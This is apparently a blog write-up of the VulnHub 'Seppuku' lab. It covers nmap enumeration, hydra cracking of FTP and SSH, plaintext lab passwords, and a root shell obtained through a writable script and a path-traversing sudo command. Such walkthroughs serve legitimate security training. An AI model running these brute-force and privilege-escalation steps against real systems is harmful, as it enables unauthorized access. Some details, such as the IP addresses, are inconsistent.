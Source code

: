 ```yaml
---
title: WRITE-UP Seppuku
date: 2024-08-03 00:00:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```

# Write-up seppuku

## 1. Enumeration

i used ```netdiscover```  to see real IP mylab

``` terminal
netdiscover
```
![alt text](/assets/img/seppuku/sep_netdiscover.png)
IP: ```192.168.100.17 ```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.137.141
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/seppuku/sep_nmap1.png)
![alt text](/assets/img/seppuku/sep_nmap2.png)

*   21 ```ftp``` 
*   22 ```ssh```
*   139-145 ```smb```
*   80-7601-7080-8088 ```http```

![alt text](/assets/img/seppuku/sep_7601_secret.png)
![alt text](/assets/img/seppuku/sep_rsakey.png)

## 2. Post Exploitation
crack ```ftp``` and ```ssh``` password with this credentials using ```hydra```

![alt text](/assets/img/seppuku/sep_ftp.png)

![alt text](/assets/img/seppuku/sep_ssh.png)

user ``` seppuku``` pass ```eeyoree```

## 3. Privilage Escalation

insite we find password of samurai is
```12345685213456!@!@A``` and i use ```sudo -l ``` to get ```root```

![alt text](/assets/img/seppuku/sep_ssh_all.png)

but in ```tanto``` don't have file but he use private key to go ```ssh``` and after recon we have it . 
```
ssh -i private.bak tanto@192.168.100.7 
touch .cgi_bin/bin
echo "/bin/bash" >> .cgi_bin/bin 
chmod 777 .cgi_bin/bin
```
after that i run ```sudo ``` with commnad can run with ```root```

```
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/
```

![alt text](/assets/img/seppuku/sep_root.png)

